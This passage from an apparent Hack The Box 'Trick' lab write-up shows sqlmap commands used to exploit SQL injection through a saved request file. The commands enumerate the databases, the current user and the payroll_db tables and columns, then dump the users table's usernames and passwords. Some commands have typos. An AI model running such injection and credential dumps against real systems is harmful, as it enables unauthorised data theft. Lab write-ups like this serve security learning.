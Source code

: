 ```
- Through sql map tp Exploit to get the Database information 
```
# sqlmap -r adduser_req.txt --dbms mysql --batch --thread 10 -dbs
```

![](./IMG/47.png)
- Got the DB name:
    1. payroll_db
    2. information_schema

![](./IMG/48.png)
- Get the current user information by SQLmap
```
# sqlmap -r adduser_req.txt --dbms mysql --batch --thread 10 --current-user
```
- The current user result is : ```remo@localhost```

![](./IMG/49.png)
- Get the table infromation by SQLmap
```
# sqlmap -r adduser_req.txt --batch --dbms mysql --tgread 10 -D payroll_db --tables
```

![](./IMG/50.png)
- The table informatino as follow:
    1. position
    2. allowances
    3. attendance
    4. deductions
    5. department
    6. employee
    7. employee_allowances
    8. employee_deductions
    9. payroll
    10. payroll_items
    11. users

![](./IMG/51.png)
- Get user table's column name
```
# sqlmap -r adduser_req.txt --dbms mysql --thread 10 -D payroll_db -T users --columns
```
![](./IMG/52.png)
- Result of columns

![](./IMG/53.png)
- Dump the user table's data

```
sqlmap -r /home/kali/Desktop/HTB/Trick/addmember_req.txt --batch --dbms mysql --threads 10 -D payroll_db -T users -C id, name, password, username --dump
```

![](./IMG/54.png)
```